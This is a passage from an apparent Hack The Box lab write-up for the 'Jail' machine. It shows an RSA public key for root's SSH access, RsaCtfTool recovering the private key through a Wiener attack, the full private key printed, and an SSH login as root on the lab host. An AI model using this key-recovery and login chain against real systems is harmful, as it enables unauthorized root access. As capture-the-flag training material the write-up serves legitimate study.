 ```python
└──╼ # ls -l
total 8
-rw-r--r-- 1 root root 475 Jul 22 02:41 keys.rar
-rw-r--r-- 1 root root 451 Jul  3  2017 rootauthorizedsshkey.pub
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/jail/rar]
└──╼ # cat rootauthorizedsshkey.pub 
-----BEGIN PUBLIC KEY-----
MIIBIDANBgkqhkiG9w0BAQEFAAOCAQ0AMIIBCAKBgQYHLL65S3kVbhZ6kJnpf072
YPH4Clvxj/41tzMVp/O3PCRVkDK/CpfBCS5PQV+mAcghLpSzTnFUzs69Ys466M//
DmcIo1pJGKy8LDrwdpsSjVmvSgg39nCoOYMiAUVF0T0c47eUCmBloX/K8QjId6Pd
D/qlaFM8B87MHZlW1fqe6QKBgQVY7NdIxerjKu5eOsRE8HTDAw9BLYUyoYeAe4/w
Wt2/7A1Xgi5ckTFMG5EXhfv67GfCFE3jCpn2sd5e6zqBoKlHwAk52w4jSihdzGAx
I85LArqOGc6QoVPS7jx5h5bK/3Oqm3siimo8O1BJ+mKGy9Owg9oZhBl28CfRyFug
a99GCw==
-----END PUBLIC KEY-----
```

We have a very small `RSA` Public Key which looks to be very weak. From this `Public Key` we may be able to get the `Private Key` back.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/jail]
└──╼ # /opt/RsaCtfTool/RsaCtfTool.py --publickey rar/rootauthorizedsshkey.pub --private

[*] Testing key rar/rootauthorizedsshkey.pub.
*** SNIP ***
[*] Performing wiener attack on rar/rootauthorizedsshkey.pub.
[*] Attack success with wiener method !

Results for rar/rootauthorizedsshkey.pub:

Private key :
-----BEGIN RSA PRIVATE KEY-----
MIICOgIBAAKBgQYHLL65S3kVbhZ6kJnpf072YPH4Clvxj/41tzMVp/O3PCRVkDK/
CpfBCS5PQV+mAcghLpSzTnFUzs69Ys466M//DmcIo1pJGKy8LDrwdpsSjVmvSgg3
9nCoOYMiAUVF0T0c47eUCmBloX/K8QjId6PdD/qlaFM8B87MHZlW1fqe6QKBgQVY
7NdIxerjKu5eOsRE8HTDAw9BLYUyoYeAe4/wWt2/7A1Xgi5ckTFMG5EXhfv67GfC
FE3jCpn2sd5e6zqBoKlHwAk52w4jSihdzGAxI85LArqOGc6QoVPS7jx5h5bK/3Oq
m3siimo8O1BJ+mKGy9Owg9oZhBl28CfRyFuga99GCwIgCMdb8cTpq+uOUyIK2Jrg
PNxrCGF8HNhw8qT9jCez3aMCQQHBKGne1ibAwbqvPTd91cBUKfFYYIAY9a6/Iy56
XnGBS35kpKZB7j5dMZxxOwPDowgZr9aGNAzcFAeCaP5jj3DhAkEDb4p9D5gqgSOc
NXdU4KxzvZeBQn3IUyDbJ0J4pniHZzrYq9c6MiT1Z9KHfMkYGozyMd16Qyx4/Isf
bc51aYmHCQIgCMdb8cTpq+uOUyIK2JrgPNxrCGF8HNhw8qT9jCez3aMCIAjHW/HE
6avrjlMiCtia4DzcawhhfBzYcPKk/Ywns92jAkEBZ7eXqfWhxUbK7HsKf9IkmRRi
hxnHNiRzKhXgV4umYdzDsQ6dPPBnzzMWkB7SOE5rxabZzkAinHK3eZ3HsMsC8Q==
-----END RSA PRIVATE KEY-----
```

We can `SSH` into `root` with that private key.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/jail]
└──╼ # ssh -i root.pem root@10.10.10.34
[root@localhost ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@localhost ~]# whoami
root
```
![[Pasted image 20210722032846.png]]
